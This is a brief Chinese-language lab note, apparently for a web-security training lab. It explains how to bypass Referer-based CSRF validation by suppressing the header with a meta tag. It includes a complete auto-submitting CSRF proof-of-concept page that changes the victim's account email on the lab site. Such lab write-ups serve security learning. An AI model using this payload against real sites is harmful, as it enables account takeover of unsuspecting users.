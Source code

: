 # 知识点
某些应用程序会在请求中存在Referer 标头时对其进行验证，但如果标头被省略，则会跳过验证。<br />在这种情况下，攻击者可以制作他们的 CSRF 漏洞EXP，导致受害者用户的浏览器在结果请求中删除 Referer 标头。有多种方法可以实现这一点，但最简单的方法是在承载 CSRF 攻击的 HTML 页面中使用 META 标记：
```html
<meta name="referrer" content="never">
```
# 思路
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
	<head>
		<meta name="referrer" content="never">
	</head>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac391f1c1fb4cbbac0a0b296000800ed.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="159&#64;qq&#46;com" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```
